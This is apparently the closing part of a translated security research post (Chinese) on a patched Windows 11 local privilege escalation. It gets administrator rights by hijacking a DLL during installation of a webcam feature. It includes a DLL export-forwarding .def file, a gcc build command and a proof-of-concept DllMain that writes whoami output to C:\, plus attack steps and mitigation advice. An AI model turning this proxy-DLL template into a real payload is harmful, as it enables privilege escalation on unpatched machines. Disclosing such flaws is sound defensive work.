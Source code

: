 ```
                Name:                            DllCanUnloadNow
            Function
                Ordinal:                         2
                Address:                         0x13a0
                Name:                            DllGetClassObject

```  
  
通过以下定义文件，我们可以指定我们的恶意版本暴露两个具有相同名称的函数，并在内部将函数调用传递给原始文件 target_original  
。  
```
EXPORTS
DllCanUnloadNow=target_original.DllCanUnloadNow @1 
DllGetClassObject=target_original.DllGetClassObject @2

```  
  
现在我们可以编译我们的恶意 DLL，它将直接在 C:  
 目录中创建一个新文件，使用命令 gcc -shared -o poc.dll malicious.c malicious.def  
。  
```
#include <windows.h>
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
 switch (ul_reason_for_call) {
  case DLL_PROCESS_ATTACH:
   system("whoami >> C:\\poc_only_admin_can_write_to_c.txt");
 }
 return TRUE;
}

```  
## 整合所有步骤  
  
通过上述技巧，我们能够触发漏洞并在 Windows 11 机器上获得管理员权限：  
1. 以低权限用户身份触发"移动设备"网络摄像头功能的安装。  
  
1. 等待 DLL 关闭，以便我们可以用恶意 DLL 替换它。  
  
1. 最终，我们可以看到高权限系统用户在 C:  
 位置创建了我们的文件。只有高权限用户才能写入该目录。  
  
## 总结与要点  
  
本文解释了我们如何通过利用 Windows 11 功能中的一个弱点，在最新的 Windows 11 机器上获得本地管理员权限。  
  
幸运的是，Microsoft 已经修复了这个漏洞，您只需要继续安装 Windows 更新即可。  
  
虽然保持系统更新是至关重要的，但您还可以采取其他步骤来保护您的机器。通过使用端点检测和响应（EDR）解决方案，您可以主动检测异常行为并识别不规则活动。即使漏洞尚未修补，这些工具也可能帮助您及早发现威胁并保持领先一步。  
  
附：如果您收到此类指标，请不要忘记实际收集相关信息并采取行动。我们过去发布了一篇博文，帮助您的 EDR 团队更上一层楼，您可以通过以下链接找到：  
Hitchhiker's Guide to Managed Security – Compass Security Blog[2]  
。  
## 披露时间线  
  